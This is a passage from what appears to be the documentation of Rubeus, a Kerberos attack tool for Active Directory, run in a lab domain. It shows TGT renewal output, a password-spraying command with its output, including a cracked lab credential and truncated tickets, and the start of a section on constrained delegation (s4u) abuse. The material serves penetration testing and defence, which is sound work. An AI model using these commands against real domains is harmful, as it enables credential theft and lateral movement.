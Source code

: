     [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1506 bytes
    [*] Received 1510 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):

          doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...


### brute

The **brute** action will perform a Kerberos-based password bruteforcing or password spraying attack. **spray** can also be used as the action name.

    C:\Rubeus>Rubeus.exe brute /password:Password123!! /noticket

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0

    [-] Blocked/Disabled user => Guest
    [-] Blocked/Disabled user => DefaultAccount
    [-] Blocked/Disabled user => krbtgt
    [-] Blocked/Disabled user => disabled
    [+] STUPENDOUS => newuser:Password123!!
    [*] base64(newuser.kirbi):

          doIFLDCCBSigAwIBBaEDAgEWooIELDCCBChhggQkMIIEIKADAgEFoRAbDlR...(snip)...


## Constrained delegation abuse

Breakdown of the constrained delegation commands:

| Command     | Description |
| ----------- | ----------- |
| [s4u](#s4u) | Perform S4U2self and S4U2proxy actions |


### s4u

The **s4u** action is nearly identical to [Kekeo](https://github.com/gentilkiwi/kekeo/)'s **tgs::s4u** functionality. If a user (or computer) account is configured for constrained delegation (i.e. has a SPN value in its msds-allowedtodelegateto field) this action can be used to abuse access to the target SPN/server. Constrained delegation is complex. For more information see [this post](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) or Elad Shamir's ["Wagging the Dog"](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html) post.
